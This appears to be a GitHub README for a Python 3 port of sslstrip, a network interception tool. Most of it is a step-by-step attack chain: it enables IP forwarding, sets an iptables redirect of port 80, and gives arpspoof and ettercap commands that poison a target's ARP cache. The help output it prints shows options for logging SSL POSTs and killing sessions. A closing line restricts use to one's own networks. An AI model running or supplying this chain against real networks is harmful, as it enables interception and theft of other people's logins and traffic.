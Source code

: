 # sslstrip3_python3
implementation of moxie marlinspikes sslstrip in python3 

# Requirements:

apt install python3\
apt install arpspoof
pip install twisted\
pip install python-twisted-web\
pip install service_identity-23.1.0-py3-none-any.whl #this is in the requirements folder with this repo -- https://pypi.org/project/service_identity/#files

# Running:
        sslstrip can be run from the source base without installation.
        Just run 'python sslstrip.py -h' as a non-root user to get the
        command-line options.

        The steps to getting this working (assuming you're running Linux)
        are:

        1) Flip your machine into forwarding mode (as root):
           echo "1" > /proc/sys/net/ipv4/ip_forward

        2) Setup iptables to intercept HTTP requests (as root):
           iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>

        3) Run sslstrip with the command-line options you'd like (see above).

        4) Run arpspoof to redirect traffic to your machine (as root):
           arpspoof -i <yourNetworkdDevice> -t <yourTarget> <theRoutersIpAddress>

        5) alternative if arpspoof not available is to use ettercap
           ettercap -T -S -q -M arp:remote -i <interface> /<ipaddr_client>// /<ipaddr_router>//

# Output: 
```
python3 sslstrip.py --help

sslstrip 0.9 by Moxie Marlinspike
Usage: sslstrip <options>

Options:
-w <filename>, --write=<filename> Specify file to log to (optional).
-p , --post                       Log only SSL POSTs. (default)
-s , --ssl                        Log all SSL traffic to and from server.
-a , --all                        Log all SSL and HTTP traffic to and from server.
-l <port>, --listen=<port>        Port to listen on (default 10000).
-f , --favicon                    Substitute a lock favicon on secure requests.
-k , --killsessions               Kill sessions in progress.
-h                                Print this help message.
```

# information
dont forget to remove the iptables config afterwards and to stop arpspoof or ettercap

# warning
ssl stripping is prohibited, only try this on your own machines and networks.
